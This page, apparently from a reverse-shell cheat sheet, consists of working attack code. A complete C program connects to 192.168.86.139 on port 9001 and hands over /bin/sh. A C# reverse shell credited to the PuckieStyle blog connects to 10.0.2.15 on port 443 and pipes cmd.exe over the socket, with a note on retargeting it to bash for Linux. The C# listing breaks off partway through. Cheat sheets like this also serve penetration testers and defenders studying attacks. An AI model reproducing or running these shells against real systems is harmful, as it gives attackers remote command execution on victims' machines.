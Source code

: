 ```c
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.86.139");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

### c# reverse shell
This c-sharp reverse shell is from [PuckieStyle Blog](https://www.puckiestyle.nl/c-simple-reverse-shell/)._Note: Change `cmd.exe` to `bash` if you are using against linux environment_
```cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("10.0.2.15", 443))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
```